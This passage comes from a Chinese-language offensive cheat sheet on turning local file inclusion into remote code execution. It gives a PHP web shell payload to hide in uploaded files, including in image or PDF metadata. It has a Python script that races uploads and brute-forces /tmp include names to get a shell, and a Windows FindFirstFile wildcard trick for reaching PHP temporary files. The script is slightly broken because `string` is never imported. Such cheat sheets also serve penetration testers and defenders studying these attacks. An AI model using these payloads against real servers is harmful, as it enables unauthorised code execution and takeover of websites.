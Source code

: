 - [ambionics/cnext-exploits](https://github.com/ambionics/cnext-exploits/tree/main)

## 通过上传进行LFI到RCE

如果可以上传文件，只需在其中注入外壳有效载荷（例如：`<?php system($_GET['c']); ?>`）。

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

为了保持文件可读性，最好将有效载荷注入图片/文档/PDF的元数据中。

## 通过上传进行LFI到RCE（竞速条件）

- 上传一个文件并触发自我包含。
- 反复上传大量文件以：
- 提高赢得竞速的概率
- 提高猜测概率
- 暴力破解包含`/tmp/[0-9a-zA-Z]{6}`的文件
- 享受我们的外壳。

```python
import itertools
import requests
import sys

print('[+] 尝试赢得竞速')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] 暴力破解包含')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if '负载平均' in r.text:  # <?php echo system('uptime');
        print('[+] 我们得到了一个外壳: ' + url)
        sys.exit(0)

print('[x] 出了点问题，请重试')
```

## 通过上传进行LFI到RCE（FindFirstFile）

:warning: 仅适用于Windows

`FindFirstFile`允许在Windows的LFI路径中使用掩码（`<<`作为`*`和`>`作为`?`）。掩码本质上是一个搜索模式，可以包含通配符字符，允许用户或开发人员根据部分名称或类型搜索文件或目录。在FindFirstFile的上下文中，掩码用于过滤和匹配文件或目录的名称。

- `*`/`<<` : 表示任意字符序列。
- `?`/`>` : 表示任意单个字符。

上传一个文件，它应该存储在临时文件夹`C:\Windows\Temp\`中，生成的名称类似于`php[A-F0-9]{4}.tmp`。
然后可以通过暴力破解65536个文件名或使用通配符字符，如：`http://site/vuln.php?inc=c:\windows\temp\php<<`
